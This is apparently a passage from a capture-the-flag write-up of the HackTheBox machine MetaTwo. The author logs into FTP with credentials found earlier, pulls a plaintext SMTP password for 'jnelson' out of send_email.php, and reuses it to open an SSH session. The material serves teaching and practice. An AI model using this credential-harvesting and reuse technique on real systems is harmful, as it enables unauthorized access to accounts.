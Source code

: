 Logging into the ftp server using the credentials we found in wp-config.php, we are able to find the user's credentials for `jnelson` in the file `send_email.php`.

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ ftp $(cat ip)
Connected to 10.10.11.186.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
Name (10.10.11.186:kali): metapress.htb
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||1341|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer
226 Transfer complete
ftp> cd mailer
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||9274|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> get send_email.php

{% endhighlight %}

{% highlight console %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ cat send_email.php 
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/
...


$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

...

┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$ ssh jnelson@10.10.11.186        
jnelson@10.10.11.186's password: 
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 25 12:51:26 2022 from 10.10.14.23
jnelson@meta2:~$ 

{% endhighlight %}
